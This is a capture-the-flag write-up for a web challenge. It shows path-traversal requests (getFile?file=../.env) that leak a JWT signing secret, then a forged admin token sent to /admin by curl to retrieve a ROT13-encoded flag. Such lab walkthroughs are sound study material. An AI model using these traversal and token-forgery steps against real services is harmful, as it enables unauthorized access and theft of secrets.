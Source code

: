 # Fun with Tokens

Visiting the provided website we see some interesting thing:
There are two links:

http://3.142.122.1:9334/login
http://3.142.122.1:9334/adminNames

And comments in the Source:
```
<!-- /admin is where the fun's at XD -->
<!--The secret you seek is in the environment-->
```

Admin names sounds interesting so let's check that first:
There is actually a redirect to a getFile.php interesting.
Opening http://3.142.122.1:9334/getFile?file=admins in a browser provides us a list with admin names:

```
0xd4127c3c
din_djarin11
```

This already looks a lot like there might be LFI possible. We have the hint that there is some secret in the environment so let's try to pull the .env file using the getFile.php:

http://3.142.122.1:9334/getFile?file=.env
```
No such file or directory: /app/public/.env
```

Okay but maybe in the /app directory?

http://3.142.122.1:9334/getFile?file=../.env

```
secret=G00D_s0ld13rs_k33p_s3cret5
```
Sweet! Unfortunately this is not our flag so we have to search further. Let's have at /admin as the hint said that's where the fun is supposed to be.

http://3.142.122.1:9334/admin
```
{"success":false,"message":"Maybe send the token via Headers ... for Authorization?"}
```

This is some kind of API but we are not authorized. It seems like we need a token, we already have a secret_key which is used to sign tokens so this will propably be our attack vector.
We don't have any cookies/tokens yet so let's check our /login page.

For getting the intial token 

```curl -s -i "http://3.142.122.1:9334/login" -d "username=din_djarin11" |grep token```

![header_token](https://user-images.githubusercontent.com/73250884/120975811-495cc780-c78f-11eb-8846-a9fcd65a5263.png)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF2YV9xd25ldmExMSIsInBhc3N3b3JkIjoiaGFxcnN2YXJxIiwiYWRtaW4iOiJzbnlmciIsImlhdCI6MTYyMzA1MDUyNn0.HcaTRFCnecRpusoNFTupk2ZiH4tCMNwVCrI4tMn2-4Q
```
Let's decrypt it using https://jwt.io

Intiallly it is like this

![jwt.io.png](https://user-images.githubusercontent.com/73250884/120976911-680f8e00-c790-11eb-8b3e-8f58508ca57a.png)

Change the admin to ``gehr`` and use the secret code we got.

After changing we get out new token

![jwt_io.png](https://user-images.githubusercontent.com/73250884/120976121-a8bad780-c78f-11eb-919a-b37128069345.png)

```eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF2YV9xd25ldmExMSIsInBhc3N3b3JkIjoiaGFxcnN2YXJxIiwiYWRtaW4iOiJnZWhyIiwiaWF0IjoxNjIzMDUwNTI2fQ.lzzivSQHWUoPxBy4VWv0CdosfDJRZDiOqjR7T36eerQ
```
Let's send that token to /admin as our authorization header:

```
curl http://3.142.122.1:9334/admin -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF2YV9xd25ldmExMSIsInBhc3N3b3JkIjoiaGFxcnN2YXJxIiwiYWRtaW4iOiJnZWhyIiwiaWF0IjoxNjIzMDUwNTI2fQ.lzzivSQHWUoPxBy4VWv0CdosfDJRZDiOqjR7T36eerQ"
```

![image](https://user-images.githubusercontent.com/73250884/120977485-000d7780-c791-11eb-8f69-08841c575b3c.png)

```
Hey din_djarin11! Here's your flag: FURYY{G0x3af_q0_z4gg3e_4r91ns4506s384q460s0s0p6r9r5sr4n}
```
By doing the rot 13 using cyberchef we get the flag https://gchq.github.io/CyberChef/

![image](https://user-images.githubusercontent.com/73250884/120977731-4a8ef400-c791-11eb-83a6-0dcb1613e7fe.png)

```
SHELL{T0k3ns_d0_m4tt3r_4e91af4506f384d460f0f0c6e9e5fe4a}
```
